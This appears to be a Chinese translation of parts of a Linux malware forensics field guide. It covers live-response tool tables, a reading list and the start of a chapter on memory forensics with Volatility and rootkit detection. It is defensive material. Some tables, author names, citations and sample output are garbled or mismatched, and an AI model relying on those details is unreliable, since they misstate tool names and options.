描述：显示系统信息，包括操作系统、内核版本、网络主机名和硬件机器名。

可用参数：

| -a | 显示所有信息 |

| -s | 显示内核名称 |

| -n | 显示主机名 |

| -r | 显示内核版本 |

| -m | 显示机器架构 |

| -o | 显示操作系统 |

| -i | 显示处理器 |

## 名称：linuxinfo

页码参考：23

作者/分发者：Alex Buell

获取地址：http://www.linuxinfo-.tar.gz

描述：显示系统详情，不需要参数：

```
malware@ubuntu~$ linuxinfo
Linux ubuntu 2.6.35-22-generic SMP Mar 19 20:34:50 UTC 2012
0 Unknown 1596MHz processor, 319M RAM
System library 2.1
```

## 名称：id

页码参考：21

作者/分发者：Arnold Robbins 和 David McKenzie


获取地址：GNU coreutils（用于 Linux 系统）；http://www.gnu.org/software/coreutils

描述：显示用户和组信息，或者在查询时显示当前用户。

可用参数：

| -n | 输出名称而不是数字，用于 -ug |
| -u | 仅打印有效用户 ID |
| -g | 仅打印有效组 ID |
| -G | 所有组 ID |

## 名称：`logname`

页码参考：21

作者/分发者：unknown

获取地址：GNU coreutils（用于 Linux 系统）；http://www.gnu.org/software/coreutils

描述：显示当前用户名；不需要参数。

## 名称：`printenv`

页码参考：24

作者/分发者：David McKenzie 和 Richard Mlynarnik

获取地址：GNU coreutils（用于 Linux 系统）；http://www.gnu.org/software/coreutils

描述：显示环境变量。不需要参数，但查询特定变量以生成输出（例如 `printenv PATH`）。

## 名称：`sa`（系统审计信息）

页码参考：-

作者/分发者：Noel Cragg

获取地址：http://www.gnu.org/software/acct/

描述：作为 GNU 审计工具（为 GNU/Linux 等系统提供登录和进程审计工具）的一部分，`sa` 从系统 `acct`（进程审计文件）收集并显示信息。当目标系统上启用进程审计时，内核会在系统中每个进程终止时向 `acct` 文件写入记录。

可用参数：

| 参数 | 功能 |
|---|---|
| -u | 对于审计文件中的每个命令，打印 userID 和命令名 |
| -m | 按用户显示进程数和 CPU 分钟数 |
| -t | 对于每个条目，打印实际时间与系统及用户时间之和的比率 |

# 第 1 章 恶意软件事件响应

| 名称: `sar` |
| 页面引用: 25 |
| 作者/分发者: Sebastian Godard |
| 获取途径: 包含在 Linux 的 Systat 工具中；http://sebastien.godard.pageserver-orange.fr/index.html |
| 描述: 收集并显示广泛的系统活动信息。 |

| 名称: `ifconfig` |
| 页面引用: 21 |
| 作者/分发者: Fred N. van Kempen, Alan Cox, Phil Blundell, Andi Kleen 和 Bernd Eckenfels |
| 获取途径: Linux 系统原生 |
| 描述: 显示网络接口详情和配置选项。 |

| 选项 | 功能 |
| :--- | :--- |
| -a | 显示目标系统中当前可用的所有接口，即使接口处于关闭（down）状态 |
| -s | 显示网络接口短列表（类似于 `netstat -i`） |

| 名称: `ifdata` |
| 页面引用: 21 |
| 作者/分发者: JoeyH |
| 获取途径: Linux 发行版原生；joey.h.name/code/moreutils |
| 描述: 显示网络接口详情。 |

| 选项 | 功能 |
| :--- | :--- |
| -p | 显示完整的接口配置 |
| -pa | 显示接口的 IPv4 地址 |
| -ph | 显示接口的硬件地址 |
| -pN | 显示接口的网络地址 |

## 识别登录系统的用户

请记住，识别登录目标系统的用户具有多种调查目的：(1) 帮助发现登录到受损系统中的任何潜在入侵者；(2) 识别受损的系统；(3) 为恶意内部人员恶意软件事件提供洞察，以及 (4) 在与其他工物进行关联时提供额外的调查背景。执行此任务时可以考虑的其他其他工具包括：

| 名称: `W` |
| 页面引用: 26 |
| 作者/分发者: Charles Blake，基于 Larry Greenfield 和 Michael K. Johnson 的版本重写 |
| 获取途径: 大多数 Linux 发行版原生 |
| 描述: 显示登录用户及相关活动 |

实用的选项：

| 选项 | 功能 |
| :--- | :--- |
| -u | 忽略用户名并识别当前进程和 CPU 时间 |
| -s | “短”或简略列表，不包含登录时间、JCPU 或 PCU 时间 |
| user | 仅显示指定用户的信息 |

| 名称: `who` |
| 页面引用: 26 |
| 作者/分发者: Joseph Arcenaux, David MacKenzie 和 Michael Stone |
| 获取途径: GNU coreutils（Linux 系统原生）；http://www.gnu.org/software/coreutils |
| 描述: 显示当前登录用户的信息 |

实用的选项：

|  |  |  |
| :--- | :--- | :--- |
| -a | 所有 (All) |  |
| -b | 系统最后一次启动的时间 |  |
| -d | 显示死亡系统进程 |  |
| --ips | 显示主机名的 IP 地址 |  |
| --lookup | 尝试通过 DNS 将主机规范化 |  |
| -l | 显示系统登录进程 |  |
| -q | 显示所有登录名和登录人数 |  |
| -r | 显示当前运行级别 (runlevel) |

# 第 1 章 恶意软件事件响应

| 名称: `finger` |
| 页面引用: 26 |
| 作者/分发者: David Zimmerman/Least Earn |
| 获取途径: Linux 发行版原生 |
| 描述: 用户信息查询程序 |

实用的选项：

| 选项 | 功能 |
| :--- | :--- |
| -f | `finger` 显示用户的登录名、真实名、终端名称和写入状态（如果权限被拒绝，则在终端名称后显示“*”）、空闲时间、登录时间、办公室位置和办公电话。登录时间显示为日、月、小时和分钟，除非是六个月前，则显示年份而不是小时。未知设备以及非驻留登录时间显示为单个星号。产生多行格式，显示用户主目录的所有内容、电话号码、登录 shell、邮件状态以及 “.plan” 文件的内容，以及 -s 选项描述的信息以及 |
| -s | 来自用户主目录的“project”、“pgkey”和“forward”。 |

| 名称: `last` |
| 页面引用: 64 |
| 作者/分发者: Miquel van Smoorenburg |
| 获取途径: Linux 发行版原生 |
| 描述: 通过查询自创建以来的 `/var/log/wtmp` 文件显示最后登录用户列表。 |

实用的选项：

| 选项 | 功能 |
| :--- | :--- |
| -f | 指向工具使用特定文件而非 `/var/log/wtmp`。显示指定时间的登录状态。这对于识别在特定时间登录了谁有用。 |
| -t YYYYMMDD |  |
| -HMMSS | 对于远程登录，将 IP 地址转换为主机名。 |
| -d | 该选项以标准格式显示目标主机的 IP 地址。 |

| 名称: `users` |
| 页面引用: 26 |
| 作者/分发者: Joseph Arcenaux, David MacKenzie |
| 获取途径: GNU coreutils（Linux 系统原生）；http://www.gnu.org/software/coreutils |
| 描述: 显示当前登录用户的用户名。 |

# 网络连接与活动

|  |  |
| :--- | :--- |
| **名称: `fuser`** |  |
| **页面引用: 42** |  |
| **作者/分发者: Werner Almesberger, Craig Small** |  |
| **获取途径: 大多数 Linux 发行版** |  |
| **描述: 使用文件或 socket 的进程** |  |
| **实用的选项：** |  |
| **选项** | **功能** |
| :--- | :--- |
| -u | “user”：附加与 PID 相关的用户名。例如，使用 `fuser -nu` 查询与 PID 相关的 TCP 端口。 |
| -n | “name”：将目标主机的 IP 地址转换为主机名。 |
| -i | 该选项以标准格式显示目标主机的 IP 地址。 |
| -v | 详细模式。 |

| **名称: `route`** |
| :--- | :--- |
| **页面引用: 28** |  |
| **作者/分发者: Fred N. van Kempen, Alan Cox, Phil Blundell, Andi Kleen 和 Bernd Eckenfels** |  |
| **获取途径: Linux 系统原生** |  |
| **描述: 显示系统的路由表** |  |

**名称: `ss`**

|  |  |
| :--- | :--- |
| **页面引用: 28** |  |
| **作者/分发者: Johannes Stille** |  |
| **获取途径: 大多数 Linux 发行版** |  |
| **描述: 收集 socket 统计** |  |
| **选项** | **功能** |
| :--- | :--- |
| -a | 显示所有 socket |
| -l | 显示监听中的 socket |
| -c | 显示详细信息 |
| -m | 显示内存使用 |
| -p | 显示进程 |
| -t | 仅 TCP |
| -u | 仅 UDP |

**进程分析**

许多恶意软件标本（如蠕虫、病毒、键盘记录器和木马）通常以进程的形式出现在目标系统中。整体地分析运行中的进程是至关重要的。以下是相关的工具：

# Linux 系统取证指南

**名称: `pstree`**

|  |  |
| :--- | :--- |
| **页面引用: 35** |  |
| **作者/分发者: Werner Almesberger, Craig Small** |  |
| **获取途径: 大多数 Linux 发行版** |  |
| **描述: 显示运行进程的文本层次结构（父进程/子进程）** |  |
| **实用的选项：** |  |
| **选项** | **功能** |
| :--- | :--- |
| -a | 显示命令行参数 |
| -A | 使用 ASCII 字符绘制树 |
| -h | 高亮当前进程及其祖先 |
| -H | 高亮指定进程 |
| -l | 显示长行；按 PID 而非名称排序相同祖先的进程 |
| -n |  |
| -p | 显示 PID |
| -u | 显示 uid |

**名称: `vmstat`**

|  |  |
| :--- | :--- |
| **页面引用: 31** |  |
| **作者/分发者: Henry Ware, Fabian Frérica** |  |
| **获取途径: 大多数 Linux 发行版** |  |
| **描述: 报告虚拟内存统计（进程、内存等）** |  |

**名称: `dstat`**

|  |  |
| :--- | :--- |
| **页面引用: 31** |  |
| **作者/分发者: Dag Wiers** |  |
| **获取途径: http://dag.wieciers.com/home-made/dstat/** |  |
| **描述: 报告稳健的系统统计数据；vmat 的替代品** |  |

**名称: `iostat`**

|  |  |
| :--- | :--- |
| **页面引用: 31** |  |
| **作者/分发者: Sebastian Godard** |  |
| **获取途径: 大多数 Linux 发行版** |  |
| **描述: 监控输入/输出设备** |  |

**名称: `procinfo`**

|  |  |
| :--- | :--- |
| **页面引用: 31** |  |
| **作者/分发者: Adam Schrotenboer** |  |
| **获取途径: Sander Van Malssen** |  |
| **描述: 显示从 `/proc` 目录收集的系统状态** |  |

**名称: `pslist`**

|  |  |
| :--- | :--- |
| **页面引用: 31** |  |
| **作者/分发者: Peter Pencchev** |  |
| **获取途径: https://launchpad.net/ubuntu/lucid/i386/pslist/1.3-1** |  |
| **描述: 收集目标进程详情，包括进程 ID (PID)、命令名称以及所有进程的 PID。目标进程可以通过名称或 PID 指定。** |

## 第1章 恶意软件响应

| 名称: `grep` |
| :--- | :--- |
| 页面引用 | 31 |
| 作者/分发者 | Kjetil Torgrym Holm 和 Albert Cahalan |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 允许数字调查人员通过进程 ID (PID)、进程名和/或用户查询目标进程 |
| 选项 | 功能 |
| :--- | :--- |
| -l | 列出进程名和 PID |
| -U | 仅匹配真实用户 ID 在列表中的进程 |

| 名称: `pmap` |
| :--- | :--- |
| 页面引用 | 36 |
| 作者/分发者 | Albert Cahalan |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 提供进程内存映射 |
| 选项 | 功能 |
| :--- | :--- |
| -x | 显示扩展格式 |
| -d | 显示设备格式 |

## 已载的模块

| 名称: `lsmod` |
| :--- | :--- |
| 页面引用 | 47 |
| 作者/分发者 | Rusty Russell |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 显示系统内核中模块的状态（根据 `/proc/modules` 的内容报告）。 |

| 名称: `modinfo` |
| :--- | :--- |
| 页面引用 | 47 |
| 作者/分发者 | Rusty Russell |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 显示内核模块信息 |
| 选项 | 功能 |
| :--- | :--- |
| -F | 每行显示指定的字段值。字段值包括作者、描述、许可、参数 (parm) 和文件名短名。这些字段可以通过本表描述的相应快捷选项指定。 |
| -a | 作者 |
| -d | 描述 |
| -l | 许可 |
| -p | 参数 |
| -n | 文件名 |

## Linux 系统恶意软件取证现场指南

| 名称: `modprobe` |
| :--- | :--- |
| 页面引用 | 47 |
| 作者/分发者 | Rusty Russell |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 用于探索（并修改）模块属性、依赖关系和配置的实用。 |

## 打开的文件

目标系统上的打开文件可能提供有关事件涉及恶意软件性质和目的的线索，以及供调查使用的相关遗物。在第 1 章中，我们检查了 `lsof` 工具；另一个值得考虑的工具是 `fuser`。

| 名称: `fuser` |
| :--- | :--- |
| 页面引用 | 44 |
| 作者/分发者 | Werner Almesberger, Craig Small |
| 获取途径 | 大多数 Linux 发行版内置 |
| 描述 | 显示使用文件或套字的进程。 |

实用的选项：

| 选项 | 功能 |
| :--- | :--- |
| --user | 'user', 使用进程所有者的用户名对应每个 PID。例如，查询与可疑文件 `libness_dns-2.12.1.so` 关联的用户和 PID，使用： |
| -u | `#fuser -u /libness_dns-2.12.1.so: /libness_dns-2.12.1.so: 'Name space' 变量；支持命名空间文件（目标文件名，默认值）、udp（本地 UDP 端口）和 tcp（本地 TCP 端口）。` |
| -v | 详细输出模式 |

## 命令历史

| 名称: `lastcomm` |
| :--- | :--- |
| 页面引用 | 48 |
| 作者/分发者 | Noel Cragg |
| 获取途径 | GNU 计数工具，http://www.gnu.org/software/acct/ |
| 描述 | 显示目标系统上之前执行的命令信息。 |

实用的选项：

| 选项 | 功能 |
| :--- | :--- |
| --strict-match | 仅匹配命令行上所有参数的条目。 |
| --user | 显示用户名的记录 |
| --command | 显示命令名的记录 |
| --tty | 显示 tty 名的记录 |
| --pid | 显示 PID 的记录 |

## 第1章 选读阅读材料

## 书籍

- Blum, R. & Bresnahan, C. (2011). *Linux Command Line and Shell Scripting Bible (2nd Edition)*, New York: Wiley.
- Casey, E. (2009). *Handbook of Digital Forensics and Investigation*, Burlington, MA: Academic Press.
- Casey, E. (2011). *Digital Evidence and Computer Crime, Third Edition: Forensic Science, Computers, and the Internet)*, Burlington, MA: Academic Press.


- Farmer, D. & Venema, W. (2005). *Forensic Discovery*, Reading, MA: Addison-Wesley Professional.

- Jones, Beitlich, R., & Rose, C. (2005). *Real Digital Forensics*, Reading, MA: Addison-Wesley Professional.

- Nemeth, E., Snyder, G., Hein, T., & Haley, B. (2010). *UNIX and Linux System Administration Handbook (4th Edition)*, Upper Saddle River, NJ: Prentice Hall.

- Proise, C., Mandia, K., & Pepe, M. (2003). *Incident Response and Computer Forensics (2nd Edition)*, New York: McGraw-Hill/Os.

- Shah, S. & Soyinka, W. (2008). *Linux Administration: A Beginner’s Guide (5th Edition)*, New York: McGraw-Hill.

- Sobell, M. (2009). *A Practical Guide to Linux Commands, Editors, and Shell*, Upper Saddle River, NJ: Prentice Hall.

## 论文

- Case A. Cristina A, Mariale L

- Case, A., Mariale L., & Richard, G. (2010). Dynamic recreation of kernel structures, Baltimore, MD.

- Kent, K., et al. (2006). Guide to Integrating Forensic Techniques into Incident Response, National Institute of Standards Publication 86.

- Urrea, J. (2006). Master’s Thesis, National Forensics.

## 在线资源

- Burdach, M. (2004). *Forensic Analysis of a Linux System*, Pt. 1.

- Burdach, M. (2004). *Forensic Analysis of a Linux System*, Pt. 2.

- Sorenson, H. (2003). *Incident Response Tools For Unix*, Part One.

- Sorenson, H. (2003). *Incident Response Tools For Unix*, Part Two.

## 法律法规/RFC/技术规范

- RFC 3227–证据收集与归档指南。

- *Columbia Pictures Indus. v. Bunnell*, 2007 U.S. Dist. LEXIS 46364 (C.D. Cal. June 19, 2007).

# 第2章 Linux 内存取证 分析物理和进程内存中的恶意软件特征

本章解决方案：

* 内存取证概述

* 传统内存分析

* Linux 内存取证工具的工作原理

* Linux 内存取证工具

* 解析内存中的数据结构

* 转储 Linux 进程内存

* 分析 Linux 进程内存

### 引言
内存取证在恶意软件调查中的重要性不言而喻。受攻击计算机内存内存通常可以绕过恶意软件欺骗操作系统的方法，为数字调查人员提供更全面的视角。某些情况下，恶意软件在系统其他地方留下的痕迹很少，入侵迹象仅存在于内存中。简而言之，内存取证可以恢复无法获取的恶意软件信息。

数字调查人员通常通过执行关键词搜索在内存转储中发现有用信息。然而，随着现代计算机物理内存不断增大，手动检查整个内存是低效且无效的。此外，利用内存中的特殊数据结构和相关工具可以获取更多的上下文信息。此外，Linux 系统上的恶意软件变得越来越先进，采用了隐藏技术增加了难度。专业的取证工具正在演进，以提取并解释内存转储中日益结构化数据，使数字调查人员能够恢复与恶意软件事件相关的重大证据。此类数字证据包括已删除或隐藏的进程、内存中的可执行文件和数据交换分区。更复杂的分析技术正在被编码到内存取证工具中，专门用于帮助数字调查员发现恶意代码并提取更有用的信息。

> ### 分析提示

**内存取证**

Android 是一个基于 Linux 的操作系统，针对 Android 智能手机和平板的恶意代码日益增加。在本章中需要讨论许多相同的技术和工具，以对 Android 系统进行内存取证。取证分析的主要挑战是为特定的受损 Android 系统找到一个参考内核。如果没有合适的参考内核，取证工具可能无法解释某些数据结构，因此有必要进行更多手动分析。

## 调查考虑因素

- 在现场响应（live response）期间，某些可用信息可能无法从内存转储中提取。因此，完全执行第 1 章中的过程非常重要，而不仅仅是内存转储。

- 由于内存中的数据在采集过程中发生变化，内存转储内部存在不一致之处，可能会隐藏某些取证分析。例如，指针可能会引用内存区域，该区域在内存采集过程完成之前已被新数据覆盖。结果是取证人员可能会在内存转储中遇到过时或损坏的数据链接。

随着内存取证工具力量和自动化程度的提高，数字调查员了解工具如何工作对于验证结果变得越来越发重要。没有这些知识，数字调查员将发现自己在自己在错误的工具输出或完全缺失重要信息的基础上得出了错误的结论。此外，数字调查员需要了解各种内存取证工具的优缺点，以便知道何时使用它们，以及它们的结果在何时可能不可靠。

最终，数字调查员必须对恶意软件如何操纵内存有一定了解，并需要熟悉各种内存工具以及如何解释底层数据结构。本章为分析 Linux 系统内存转储中的恶意代码提供了一种全面方法，并涵盖了相关的技术和工具。关于底层数据结构的细节超出了本现场指南》的范围，某些部分内容在《恶意软件取证：调查与分析恶意代码》（以下简称“恶意软件取证”）一书中进行了了讨论。

## 第 2 章 Linux 内存取证

## 内存取证概述

在以符合取证规范的方式保存内存后，采用策略和相关方法提取与恶意软件事件相关的尽可能多的信息。

内存转储可以包含各种数据，包括恶意可执行文件、相关的系统相关数据结构，以及已删除的用户活动和恶意事件的残留物。这些信息中的某些部分带有相关的时间戳。内存取证的目的是发现并提取与恶意软件直接相关的数据，相关信息可以提供上下文，例如事件何时发生以及恶意软件是如何安装到系统上的。具体来说，在分析恶意代码的范围内，内存取证的主要方面如下：

- 收集可用的元数据，包括进程详情、加载的模块、网络连接以及与潜在恶意软件相关的信息，用于与从现场系统保存的易性数据进行分析和比较。

- 对与恶意软件事件特定的已知细节进行关键词搜索，并寻找任何可疑项的字符串。

- 寻找恶意代码的常见特征，包括内存注入和钩钩（hooking）。

- 对于每个感兴趣的进程，在可行的情况下，从内存中恢复可执行代码以进行进一步分析。

- 对于每个感兴趣的进程，从内存中提取相关数据，包括相关的加密密钥和捕获的数据（如用户名和密码）。

- 提取与恶意代码安装和活动相关的上下文细节，如 URIs、系统日志和配置值。

- 对从内存中提取的信息进行时间和关系分析，包括事件时间线和进程树图，以对恶意软件事件有更全面的理解。

这些过程是内存取证的指南，而不是检查清单。没有一种单一的方法可以解决所有情况，且某些目标在某些情况下可能不。此外，具体的实现将取决于所使用的工具和涉及的恶意软件类型。最终，调查的成功取决于数字调查员应用数字取证技术并使其适应新挑战的能力。

## 调查考虑因素

- 上述步骤的完整性和准确性很大程度上取决于所使用的工具以及你对内存数据结构的熟悉程度。某些工具将提供有限的信息，或可能无法在从某些版本的 Linux 获取的内存上运行。

## Linux 系统恶意软件取证现场指南

- 为了避免错误和错过机会，有必要比较多个工具的结果并手动验证重要的发现。

- 更高级的 Linux 恶意软件（如 Phalanx2 root）采用了多种混淆方法，使其很难从内存转储中发现其所有的复杂性和隐藏组件。因此，在处理更高级的恶意软件时，将内存分析的结果与对受损系统的文件系统和网络级信息的取证分析相结合是非常重要的。


### 分析提示

### 现场访谈

大多数事件都有一个识别出恶意活动的决定性时刻。数字调查员关于那个时刻的信息越多，他们就越能专注于取证分析，并增加破解案件的概率。仅仅知道事件的大致时间以及观察到了哪些证据，就能帮助数字调查员制定获取内存转储以作为数字证据的策略。如果没有任何此类背景信息，取证分析就像在大海捞针，可能导致时间的浪费和机会的流失（例如，相关的网络日志被覆盖）。因此，在对内存转储进行分析之前，建议就恶意代码事件并从相关证人处收集尽可能多的信息。第 1 章中的“现场访谈问题”提供了坚实的背景基础。

## “老派”内存分析

> 除了使用专业的取证工具来解释数据结构外，还应以原始形式查阅数据。

尽管本章涵盖的内存取证工具在过去几年里有了巨大的进步，但内存转储中仍有许多工具无法自动提取的信息。因此，采用老派内存分析仍然是有效的，包括关键词搜索、文件切刻以及 `strings` 命令等文本工具的使用。

- 不再存在于磁盘上的网页和文档的文件碎片

- 命令行运行的命令

## 第 2 章 Linux 取证

- 用户名和密码

- 电子邮件地址和消息内容

- URL，包括引擎查询

- 文件名和已删除文件的系统项

- IP 数据包，包括有效荷

在未保存其他的内存转储中可以发现意外的信息，这使得手动检查变得必要。

- 例如，内存转储可以捕获命令控制活动，例如攻击者执行的指令和与攻击相关的网络通信。图 2.1 显示了目标内存转储中捕获的 IP 数据包示例。



图 2.1-内存中的 IP 包，源 IP 地址：192.168.151.130 (c0 a8 97 02)，目标 IP 219.93.175.67 (*db 5d of 43*) 从偏移量 00e499d 开始，ASCII 格式的有效荷可见

从可执行文件和其他类型文件中提取文件以进行进一步内存分析是理想的。

- 实现这种方法的方法在使用文件切刻工具（如 `foremost` 和 `scalpel`），在内存转储或指向特定进程的提取内存区域上运行。然而，大多数切刻工具默认未配置恢复 Linux (ELF) 文件。

- 切刻结果可能比专业取证工具的方法更全面。

- 大多数目前的切刻工具只恢复连续数据，而物理文件的内容可能是碎片化的。然而，像 Scal Carver 等努力旨在恢复 Linux 可执行文件并在内存转储上产生有用的结果。

在图2.2.4中，此图显示了从页大小为4096字节的内存转储提取的ELF文件，使用top中的“!!!分隔符索引的碎片文件。在ELF Carver中选择不同的块大小将返回不同的结果。



图2.2-使用ELF Carver从内存中刻取碎片的可执行文件

- * 为了提取如信用卡号、电子邮件地址、URI、域名名和IP地址等额外信息，像`bulk_extractor` 这样的工具非常有用。⁵ 此外，当存在特定的关注恶意软件时，可以使用 `bulk_extractor` 自带的 `find_frag` 工具在内存转储中定位恶意软件可执行文件的碎片。

> 分析提示

Android的细微差异：

在大多数情况下，从Android设备提取内存转储可以使用相同的工具，但在涉及Android应用时需要注意细微差异。具体来说，为了从Android内存转储中恢复Dalvik可执行文件（DEX），必须使用相关的头部签名 (0x64 0x65 0x78 0x0a 0x30 0x33 0x35 0x00) 以及可能的DEX文件格式的其他特征 (http://source.android.com/development/dalvik/dex-format.html)。

⁴ Scott Hurd, Zhiqiang Lin, Guofei Han, and Bhavani Thuraisingingham. "BinCarver: Automated Recovery of Binary Executable Files." 将出现在 Proceedings of the 12th Annual Digital Forensic Research Conference (DFRS2012), Washington DC, August 2012 (http://www.dfrws.org/proceedings/DFRS2012-p12.pdf).

⁵ 有更多关于`bulk_extractor`的信息，请访问 (http://www.forensicswiki.org/wiki/Bulk_extractor)。

# 第2章 Linux内存取证

即使可以使用复杂的内存取证工具，数字调查人员从花时间查看内存转储或进程内存转储中的可读文本中从中受益。

- 当从数字调查的其他方面获取IP地址等信息时，关键词搜索是定位特定感兴趣信息的另一种高效方法。

## 调查考量

- 这些从内存转储中提取信息的传统方法没有提供上下文环境。例如，与URL或IP数据包相关的时间不会自动显示，可能完全无法获取。出于这个原因，将传统分析的结果与专门的内存取证工具相结合，以对恶意软件事件执行的活动获得更全面的理解。

- 虽然内存取证工具提供了通过重构内存结构来执行执行文件提取的机制，但使用 `foremost`和`scalpel`等刻取工具可能会有利。文件刻取通常会提取各种文件碎片，可能包括图形文件、显示入侵者收集兴趣的文档片段以及可能被盗取的内容。

# Linux内存取证工具的工作原理

理解内存取证工具执行的底层操作有助于你为特定任务选择正确的工具，并评估结果的准确性和完整性。由于Linux是开源的，对内存中的数据结构有更多了解。Linux内存结构用C语言编写，并包含每个操作系统版本的头文件。例如，存储内存中进程信息的“`task_struct`”数据结构其格式定义在“`sched.h`”文件中，而存储网络连接信息的“`inet_sock`”结构格式定义在“`inet_sock.h`”文件中。然而，这些结构的格式在Linux版本之间存在差异。

- 由于每个版本的Linux可能有略有不同的数据结构，内存取证工具可能只支持某些版本的Linux。⁶ 某些内存取证工具需要与被检查系统匹配的配置文件。虽然为特定版本的Linux创建配置文件很麻烦，但一旦为特定版本创建了配置文件

> ⁶ Andrew Case, Andrew C, Lodovicoiale, III, Golden Richard, Vass Roussev (2008) “FACE: Automated Digital Evidence Discovery and Correlation,” DFRWS2008 (http://www.dfrws.org/2008/proceedings/p65-case.pdf).

# Linux系统恶意软件取证指南

的Linux它可以重复用于检查来自类似系统的转储。开发者和用户正在共享他们创建的配置文件以促进这一过程，通过开发者网站免费提供并支持用户。

- 随着这些工具的成熟，它们被设计得足够灵活以适应所有版本的Linux。⁷

- 某些工具只活动进程，而其他工具通过通过slab分配器或对内存进行线性扫描来刻取“`task_struct`”进程结构而存在。

- 某些工具只提取进程内存的某些区域，而其他工具可以从交换分区以及与进程相关的执行文件中提取相关信息。

- 某些工具能正确检测内存注入和钩子，而其他工具会错误地识别此类特征（假阳性）或完全不识别（假阴性）。

- 关于内存取证工具提供的更多细节见《恶意软件取证》文本。

## 调查考量

- 虽然可以使用许多取证工具而不理解这些工具解释内存数据结构的操作以及内存取证工具的工作原理，缺乏理解将限制你分析相关信息的能力，并难以评估信息的完整性和准确性。因此，将传统分析的结果与专门的内存取证工具相结合，以对恶意软件事件执行的活动获得更全面的理解是非常重要的。

# Linux内存取证工具

选择最适合你要执行的内存类型的工具

> ⁷ Andrew Case, Andrew C, Lodovicoiale, III, Golden Richard, Vass Roussev (2008) “FACE: Automated Digital Evidence Discovery and Correlation,” DFRWS2008 (http://www.dfrws.org/2008/proceedings/p65-case.pdf).

> ⁸ 有更多关于`bulk_extractor`的信息，请访问 (http://www.forensicswiki.org/wiki/Bulk_extractor)。

# Linux内存取证工具

分析 | 数据

> ⁹ 有更多关于`idetect`的信息，请访问 forensic.seccure

> ¹⁰ 有更多关于`find_pl`的信息，参考 JM (2006) "An Analysis of RAM." Naval Postgraduate School at http://nps.edu/public

# 第2章 Linux内存取证

适用于许多版本的Linux。开源Volatility框架已适配内存转储，包括Android，但必须针对被检查的Linux版本进行配置。因此，有必要熟悉多种内存工具。

- 进程和线程

- 模块和映射

- 打开的文件和套接

某些工具提供额外功能，如提取执行文件和进程内存、检测注入和钩子，以及恢复存储内存中的配置值和文件项。

| 分析 | 警告 | 信息 | 反汇编 |

|---|---|---|---|


| 内核文本不匹配 0ffff816003d [sys_call+0] | | | |
| 内核模块 'vmci': 缺失引用 | | | |
| 内核堆栈中的非文本内存地址 3451 (shd): 0xffffaaa0905c [shpcop_:key_28 | | | |
| 内核堆栈中的非文本内存地址 3484: 0xffffaaa0905c [shpcop_:key_28 | | | |
| 内核堆栈中的非文本内存地址 2481: 0xffffaaa0905c [shpcop_:key_28 | | | |
| 内核堆栈中的非文本内存地址 2558: 0xffffaaa0905c [shpcop_:key_28 | | | |

图2.3–告警包含Phalanx2根类的内存转储

¹¹ 有更多关于Volatility的信息，请访问 http://code.google.com/volatility/.

¹² 有更多关于SecondLook的信息，请访问 http://secondlookforensics.com.

# 分析提示

## 高级 Linux 根内核 (Rootkits)

Adore 和 Phalanx 等 rootkit 已经存在多年，并一直在定期更新以包含更先进的功能。尽管这些 rootkit 正在被更新以规避网络扫描器和基于主机的入侵检测系统的检测，但它们并不是内存取证的对手。较新版本的 Adore 可能具有更复杂的连接和后门功能，但仍然使用隐藏文件、进程和网络连接的方法，而这些方法很容易被内存取证发现。Phalanx2 擅长隐藏自己并监控受损系统上的活动，以设置密码，其中也包括保护 SSH 和 GPG 密钥的密码。此外，Phalanx2 的后门功能并不是开启新的监听端口，而是寄挂在受损系统运行的现有服务上。然而，为了实现这些高级功能，Phalanx2 对受损系统进行了大量修改，这些修改在内存取证检查中是显而易见的，如图图 2.3 所示，包括挂钩进程和篡改系统调用。

## 调查考虑因素

- 内存取证工具处于开发早期，可能包含错误和其他局限性，从而导致信息丢失。为了增加你注意到分析工具引入的任何错误的概率，在可行的情况下，将内存取证工具的输出与另一个工具的输出以及从活动系统中收集的瞬态数据进行比较。

## 进程与线程

- 尽可能获取更多有关进程和关联进程的信息，包括隐藏和终止的进程，并分析细节以确定哪些进程与恶意软件有关。
- 当系统运行恶意软件时，关于进程和线程的信息（是什么、在何处、何时、如何做）通常会在几个方面具有重要意义。
- 内存中隐藏或注入了哪些进程可能感兴趣；它们在内存或磁盘上的位置可能值得注意。
- 它们何时被执行可以提供有用的线索，而它们是如何被执行的可能会揭示问题。
- 删除的进程在调查中也可能很重要。首先，将通过操作系统可见的进程与内存中存在的所有 `task_struct` 结构进行比较，可以发现被删除和隐藏的进程。

# 第 2 章 Linux 内存取证

## 命令行内存分析工具

- `Volatility` 有多个插件用于列出 Linux 内存转储中的进程。`linux` 插件遍历运行进程的链表，提供有关活动进程的信息，如图 2.4 所示，其中一个与 Phalanx2 工具包相关的名为“Xnext”的进程被加粗显示了。

```
$python volatility.py -f Phalanx2-2102101.dd --profile=LinuxFedora64 linux_pslist
Offset     Name                PID     Uid     Start Time
0x0080008f0579d0    2479    0       43061   Tue Oct 30 2012 07:33:15
0x0080008f05a7d0    2558    0       Tue Oct 30 2012 07:49:02
0x0080008f05c5d0    2562    500     Tue Oct 30 2012 07:49:27
0x0080008f05c4d0    2563    500     Tue Oct 30 2012 07:49:27
0x0080008f01d2e80    2595    500     Tue Oct 30 2012 07:50:28
0x0080008f01d8d00    2720    0       Tue Oct 30 2012 07:55:32
0x0080008f01f4c00    2726    500     Tue Oct 30 2012 07:55:59
0x0080008f01f4d00    2727    500     Tue Oct 30 2012 07:55:59
0x0080008f02e4c00    2755    500     Tue Oct 30 2012 07:56:43
